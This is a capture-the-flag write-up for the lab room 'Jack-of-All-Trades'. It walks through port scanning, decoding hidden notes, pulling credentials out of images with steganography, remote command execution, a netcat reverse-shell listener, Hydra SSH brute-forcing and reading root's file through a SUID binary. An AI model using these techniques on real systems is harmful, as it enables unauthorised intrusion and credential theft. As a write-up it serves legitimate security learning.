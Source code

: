 # CTF Writeup: Jack-of-All-Trades

## Preparation

First thing I always do before approaching any CTF challenge is create a dedicated directory on my Kali machine to keep credentials, outputs, and clues organized:

```bash
mkdir ~/Desktop/thm/rooms/jack-of-all-trades
```

---

## Reconnaissance

After receiving the target's IP, I ran an **nmap** scan. Something unusual stood out (so unusual I ran the scan three times to be sure):

```bash
nmap -sC -sV -Pn {{TARGET-IP}}
```

_Output snippet:_

```

nmap -sC -sV -Pn {{TARGET-IP}}
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-30 01:02 IDT
Nmap scan report for 10.10.241.208
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
|_http-title: Jack-of-all-trades!
|_http-server-header: Apache/2.4.10 (Debian)
80/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 13:b7:f0:a1:14:e2:d3:25:40:ff:4b:94:60:c5:00:3d (DSA)
|   2048 91:0c:d6:43:d9:40:c3:88:b1:be:35:0b:bc:b9:90:88 (RSA)
|   256 a3:fb:09:fb:50:80:71:8f:93:1f:8d:43:97:1e:dc:ab (ECDSA)
|_  256 65:21:e7:4e:7c:5a:e7:bc:c6:ff:68:ca:f1:cb:75:e3 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.49 seconds
```

  
Turns out the HTTP server was running on **port 22**, while SSH was on **port 80**.  

---

## Accessing the Web Server

Trying to open port 22 in Firefox didn’t work, because modern browsers block uncommon ports for security reasons:

![Firefox Block](https://github.com/user-attachments/assets/0463e7a0-7f71-493e-8199-cc59f6dce3f6)

To bypass this, I adjusted Firefox settings:

- Go to `about:config`
- Search for `network.security.ports.banned.override`
- If missing, create it:  
  Right-click → New → String  
  Name: `network.security.ports.banned.override`  
  Value: `22`  
- Restart Firefox

After this, the page loaded successfully.

On the site, I noticed three interesting images: the **dinosaur**, the **toy**, and the **header**. I saved them locally for later inspection.

![Jack Website](https://github.com/user-attachments/assets/cd75051c-e0ef-4df1-8db5-70be89bd2005)

---

## Source Code Enumeration

Checking the page source (`Ctrl+U`), I found a hidden note with **Base64-encoded text** and a clue pointing to `/recovery.php`.

Decoding the hidden note gave:

> "Remember to wish Johnny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?-------"

So, I noted down:  
- Name: **Johnny Graves**  
- A password: `u?-------`  

Visiting `/recovery.php` revealed another hidden message, this time encoded in **Base32**.  

![Recovery Page Source](https://github.com/user-attachments/assets/f3c9bfa1-0f57-4eb8-8d31-283ec45eb5d0)

Decoding led to hexadecimal output, which after conversion looked like some rotation cipher. A quick Google search on Johnny Graves pointed to his MySpace page:

![Johnny MySpace](https://github.com/user-attachments/assets/30e6789b-f355-457b-bc66-3f5982dfd276)

Turns out Johnny loves using **ROT13 + Base32** for his messages. Applying this gave me a **bit.ly URL**, which redirected to the Wikipedia page for **Stegosauria**. I kept that keyword in mind.

---

## Steganography Fun

Time to inspect the images I saved earlier with **steghide**.

```bash
steghide --extract -sf stego.jpg
```

With the password from earlier, I extracted `creds.txt`:

![Creds Output](https://github.com/user-attachments/assets/a78866f0-313d-4d25-b6d9-99816ff18daf)

Repeating the process for `header.jpg` yielded `cms.creds`:

```
Username: jackinthebox
Password: Tp-------
```

Bingo!

---

## Exploitation

Using those creds, I logged into `/recovery.php`. The page allowed command execution through the URL parameter:

![Command Exec](https://github.com/user-attachments/assets/eeaf4ae7-38c1-4cb4-b341-5799d3d4b153)

Perfect — I now had RCE. Instead of just trying to read files, I went for a **reverse shell**.  

I generated one at [revshells.com](https://www.revshells.com/), started a listener with `nc -nlvp 4444`, and popped a shell:

```
whoami
www-data
```

Upgrading it with Python gave me an interactive shell.  

---

## Lateral Movement

Inside `/home`, I found **jack’s home folder** (no access) and a file called `jacks_password_list`. Jackpot!  

I copied it to my Kali machine and brute-forced SSH with **Hydra** (don’t forget SSH is on port 80!):

```bash
hydra -l jack -P wlist.txt ssh://10.10.234.46:80/
```

Hydra revealed Jack’s password. Now I could SSH as Jack:

```bash
ssh jack@10.10.234.46 -p80
```

Inside Jack’s home directory, I found the **user flag**, but in an unexpected format — an image file!  

I copied it back with SCP:

```bash
scp user.jpg kali@10.9.4.95:~/Desktop/thm/rooms/jack-of-all-trages/
```

And sure enough, the flag was embedded in the picture.

![User Flag](https://github.com/user-attachments/assets/7dd65d2c-9008-4d32-93d6-433def11978f)

---

## Privilege Escalation

To get root, I checked `sudo -l` (no luck), then searched for binaries with the SUID bit:

```bash
find / -type f -perm -4000 2>/dev/null
```

The list included **/usr/bin/strings**. Using it on `/root/root.txt` worked!  

```bash
strings /root/root.txt
```

_Output:_  

```
ToDo:
1.Get new penguin skin rug...
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body...
5.Remember to finish that contract for Lisa.
6.Delete this: sec*********_{****************************}
```

---

## Flags Obtained 🎉

- **User Flag** → Found in `user.jpg`  
- **Root Flag** → Extracted with `strings /root/root.txt`  

✅ Challenge Complete!
